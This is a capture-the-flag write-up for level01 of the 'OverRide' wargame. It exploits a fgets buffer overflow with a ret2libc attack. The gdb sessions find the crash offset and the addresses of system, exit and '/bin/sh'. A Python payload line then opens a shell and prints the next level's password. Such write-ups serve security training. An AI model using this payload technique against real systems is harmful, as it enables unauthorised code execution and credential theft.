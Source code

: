 In this level we will use a ret 2 libc.
Here we see that the `fgets` off the password read more than the size allowed.

Let's find where it overflow:
We use [Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to generate patterns.
```
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
This give us an offset of 80

Now let's find the required address to make a proper return to libc(with a real return address for `system`) 
```
(gdb) start
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) i proc map
process 1790
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcbfff, "/bin/sh"
0xf7f897ec
1 pattern found.
```
Address of `system` in little endian : `\xd0\xae\xe6\xf7`
Address of `exit` in little endian : `\x70\xeb\xe5\xf7`
Address of "/bin/sh" in little endian : `\xec\x97\xf8\xf7`

``` Shell
level01@OverRide:~$ python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload
level01@OverRide:~$ cat /tmp/payload - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```